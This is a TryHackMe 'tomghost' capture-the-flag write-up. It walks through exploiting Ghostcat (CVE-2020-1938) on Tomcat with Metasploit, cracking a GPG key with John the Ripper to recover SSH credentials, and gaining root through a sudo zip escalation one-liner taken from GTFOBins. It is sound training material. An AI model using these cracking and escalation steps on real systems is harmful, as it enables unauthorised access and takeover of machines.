 # TryHackMe: tomghost

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

*[Link](https://tryhackme.com/room/tomghost)*

## Recon

I got the following machine IP:

```
10.10.208.16
```

The nmap scan (see `nmap.log`) revealed the version number of Apache Tomcat running on port 8080. As the TryHackMe assignment already hinted, it's a version vulnerable to [Ghostcat](https://www.chaitin.cn/en/ghostcat) (CVE 2020-1938).

## Metasploit exploit

I tried the `admin/http/tomcat_ghostcat` exploit in metasploit, with the default filename. It got me the following credentials:

```
skyfuck:8730281lkjlkjdqlksalks
```

Which worked on SSH :-)

![](first-shell.png)

## Flag 1

Within the `skyfuck` home directory, I found two files: `tryhackme.asc` and `credential.pgp`. I copied these to my machine using SCP and started cracking the key with John the ripper.

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg2john tryhackme.asc > hash.txt

File tryhackme.asc
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $john --wordlist=~/Desktop/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2023-08-02 15:22) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And could now read the file, containing more credentials:

```
┌─[✗]─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
  
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

I used these credentials to log into SSH again, now with the `merlin` user. His home directory contained the flag:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

## Privilege escalation: flag 2

It looks like the zip utility might be a privilege escalation vector:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

I found steps to escalate privileges using zip with a simple google search. Executing the following works:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

*[Source](https://gtfobins.github.io/gtfobins/zip/)*

![](root-shell.png)


